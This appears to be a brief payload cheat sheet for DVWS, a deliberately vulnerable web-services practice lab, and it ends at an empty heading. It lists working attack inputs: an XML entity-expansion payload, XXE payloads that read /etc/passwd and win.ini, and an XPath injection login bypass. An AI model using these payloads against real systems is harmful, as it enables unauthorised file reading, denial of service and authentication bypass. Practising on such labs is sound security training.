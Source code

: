 ### WSDL Enumeration
URL: dvws/vulnerabilities/wsdlenum/service.php?wsdl

check_user_id with value root

### XML External Entity Injection
URL : /dvws/vulnerabilities/xxe/

[XML Entity Expansion]

<!DOCTYPE foo [<!ENTITY entity0 "foo"><!ENTITY entity1 "&entity0;&entity0;"><!ENTITY entity2 "&entity1;&entity1;"><!ENTITY entity3 "&entity2;&entity2;">]><name>foo and&entity3;</name>


[XXE]

name=<?xml version="1.0"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<test>&xxe;</test>
 
 
name=<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]><test>&xxe;</test>


### XPATH Injection
URL: /dvws/vulnerabilities/xpath/xpath.php



username: foo' or 1=1 or 'a'='a 
password: bar

### WSDL Scanning 
